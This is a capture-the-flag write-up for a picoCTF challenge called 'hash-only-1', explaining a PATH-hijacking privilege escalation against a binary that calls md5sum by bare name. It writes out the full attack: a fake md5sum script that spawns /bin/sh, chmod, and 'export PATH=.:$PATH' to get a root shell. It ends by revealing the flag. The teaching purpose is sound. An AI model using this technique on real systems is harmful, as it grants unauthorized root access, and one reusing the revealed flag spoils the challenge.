 **Challenge:** hash-only-1

**Level:** Medium

**Challenge Author:** Junias Bonou

### Description: 
Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!

### Step-by-Step Walkthrough:
We are immediately asked to connect to an instance and run a binary. There is a v2 of this challenge

## Investigation - running the binary
Logging in to the instance, we see the `flaghasher` binary. Run it with `./flaghasher`

From the results, we learn the following information

1. Hash value: `cba918c000164f89fa4f30dbde448602`
2. Flag location: `/root/flag.txt`
3. Encryption variation: `MD5`

At this point, I played around with hashcat, but didn't get anywhere. Since MD5 doesn't have any known vulnerabilities, and Hashes are intended to be uncrackable, this means there's something I don't know and a new tool to introduce.

## Learning - PATH
The PATH environment variable in `Bash` (and other shells) is a list of directories that the shell searches when you enter a command. When you type a command (like `ls` or `python`), `Bash` looks through each directory listed in PATH (from left to right) to find an executable file with that name.

Example:

`echo $PATH`

might output:

`/usr/local/bin:/usr/bin:/bin:/home/user/bin`

If you type `ls`, `Bash` will look for `ls` in `/usr/local/bin`, then `/usr/bin`, then `/bin`, and so on, until it finds it.

## Investigation - Binary
Since we have access to the binary, let's explore that a little more. I ran a series of debugging and investigation commands I've learned recently from these challenges:

1. `objdump -d flaghasher | less` - gives us the equivalent of `Binary Ninja`, but unfortunately didn't give much I could use
2. `gdb flaghasher` then `disas main` ran through the main function of the binary, and gave interesting, but unusable information since we have no way (that I'm aware of) to effect the memory
3. `nm flaghasher` lists all the functions and confirms that `main` is likely the only interesting one
4. `strings, ltrace and strace` all provide some insight into a single command:

`system("/bin/bash -c 'md5sum /root/flag.txt'")`

This command indicates something interesting, that it's running `md5sum` as `bash`. This means that if we have permissions to put a file in the `PATH`, we can possibly run it prior to the actual call to `md5sum`. First, let's refresh on `bash`

## Learning - Bash
`Bash`, (Bourne Again SHell), is a widely used command-line shell and scripting language for Unix and Linux systems. It allows users to interact with the operating system by typing commands, running scripts, automating tasks, and managing files and processes. `Bash` is the default shell on most Linux distributions.

you can run `Bash` within a script. In fact, most shell scripts are `Bash` scripts! You can:

* Start a script with a shebang line to specify Bash: `#!/bin/bash`
* Call Bash explicitly within another script: `bash -c "echo Hello from Bash"`
* Run a Bash script from another script: `bash myscript.sh`

This allows you to execute `Bash` commands or scripts from within other scripts or programs.

## Learning - PATH Exploitation
PATH exploitation is a technique where an attacker takes advantage of how the shell uses the PATH environment variable to locate executables. If a program runs a command without specifying its full path (e.g., using `ls` instead of `/bin/ls`), and the attacker can modify the PATH, they can place a malicious executable with the same name earlier in the PATH. When the program runs the command, it executes the attacker’s version instead of the intended system command.

Example:

1. Attacker creates a fake `ls` script in `/tmp/fakebin`
2. Attacker sets `PATH=/tmp/fakebin:$PATH`
3. If a program runs `ls`, it will execute the fake script

PATH exploitation allows attackers to run their own code by tricking a program into using a malicious executable found earlier in the PATH.

## Action - PATH Exploitation
Let's take what we just learned, and attempt to set up our own `md5sum` executable. We are taking advantage of the `flaghasher` script permissions, which will call our fake executable with higher permissions than our own. Note that this is only possible, because the call to `md5sum` does not indicate the full path `/usr/bin/md5sum`, instead relying on the `PATH` shortcut.

While logged in to the instance, create a new file called `md5sum`

within the file, add in our script:

```
#!/bin/bash
/bin/sh
```

Give our file executable permissions:

`chmod +x md5sum`

This script will replace `md5sum` and instead drop us into a root shell.

Prepend the directory with your file to PATH. The current directory is `.`:

`export PATH=.:$PATH`

If successful, this will grant a root shell. Now let's run the flaghasher script again!

<details><summary>Flag</summary>
    <pre>
    picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_04d0aaff}
    </pre>
   </details>